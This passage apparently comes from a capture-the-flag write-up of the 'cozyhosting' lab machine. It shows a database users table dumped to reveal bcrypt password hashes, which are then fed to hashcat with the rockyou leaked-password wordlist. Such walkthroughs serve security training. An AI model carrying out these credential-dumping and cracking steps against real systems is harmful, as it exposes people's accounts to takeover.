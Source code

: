     
    
    cozyhosting=# \dt
             List of relations
     Schema | Name  | Type  |  Owner   
    --------+-------+-------+----------
     public | hosts | table | postgres
     public | users | table | postgres
    (2 rows)
    

The `hosts` table isn’t interesting, but the `users` table has hashes in it:

    
    
    cozyhosting=# select * from users;
       name    |                           password                           | role  
    -----------+--------------------------------------------------------------+-------
     kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
     admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
    (2 rows)
    

### Crack Hash

I’ll make a `hashes` file with those two hashes:

    
    
    $ cat hashes 
    kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
    admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
    

`hashcat` isn’t able to automatically detect the hash type:

    
    
    $ hashcat hashes --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    hashcat (v6.2.6) starting
    ...[snip]...
    The following 4 hash-modes match the structure of your input hash:
    
          # | Name                                                       | Category
      ======+============================================================+======================================
       3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
      25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
      25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
      28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
    
    Please specify the hash-mode with -m [hash-mode].
    ...[snip]...
    

I’m including `--user` because my hashes have `[username]:` at the front of
each line.
